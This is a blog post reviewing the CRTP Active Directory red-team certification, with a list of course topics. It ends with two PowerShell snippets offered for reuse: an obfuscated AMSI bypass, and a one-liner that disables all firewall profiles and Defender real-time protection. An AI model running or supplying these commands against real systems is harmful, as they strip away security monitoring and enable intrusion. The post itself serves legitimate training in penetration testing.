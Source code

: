 ```yaml
---
layout: post
title: "Certified Red Team Professional (CRTP) Review"
permalink: "crtp"
date: 13-11-2022
categories: Blog
---
```


Recently I passed the Certified Red Team Professional (CRTP) which was an excellent course provided by Pentester Academy. The course is all focused on Active Directory hacking but instead of using Kali we instead use a Windows box to priv esc and move around the AD network with the help of PS Remoting mainly. 

The best part about this course is we are working in an environment with MS Defender and AMSI scanning in place so although being stealthy (aka Red Teaming) isn't a requirement it is necessary to bypass these restrictions.

The course consists of the following sections but to be honest for the exam the 'Defenses' topics aren't required:

* Active Directory Enumeration
* Local Privilege Escalation
* Domain Privilege Escalation
* Domain Persistence and Dominance
* Cross Trust Attacks
* Forest Persistence and Dominance
* Defenses – Monitoring
* Defenses and bypass – Architecture and Work Culture Changes
* Defenses and Bypass – Deception
* Defenses and Bypass – PowerShell

One of the key things when going from box to box I learned is how to disable AMSI and also open up the firewall and disable real-time monitoring. These were the two Powershell commands I ran each time which might be useful for others:

**Bypass AMSI:**
{% highlight powershell %}
S`eT-It`em ( 'V'+'aR' + 'IA' + ('blE:1'+'q2') + ('uZ'+'x') ) ( [TYpE]( "{1}{0}"-F'F','rE' ) ) ; ( Get-varI`A`BLE ( ('1Q'+'2U') +'zX' ) -VaL )."A`ss`Embly"."GET`TY`Pe"(( "{6}{3}{1}{4}{2}{0}{5}" -f('Uti'+'l'),'A',('Am'+'si'),('.Man'+'age'+'men'+'t.'),('u'+'to'+'mation.'),'s',('Syst'+'em') ) )."g`etf`iElD"( ( "{0}{2}{1}" -f('a'+'msi'),'d',('I'+'nitF'+'aile') ),( "{2}{4}{0}{1}{3}" -f ('S'+'tat'),'i',('Non'+'Publ'+'i'),'c','c,' ))."sE`T`VaLUE"( ${n`ULl},${t`RuE} )
{% endhighlight %}

**Disable AV & Open Firewall:**
{% highlight powershell %}
Set-NetFirewallProfile -Profile Domain,Public,Private -Enabled False;Set-MpPreference -DisableIOAVProtection $true;Set-MpPreference -DisableRealtimeMonitoring $true
{% endhighlight %}




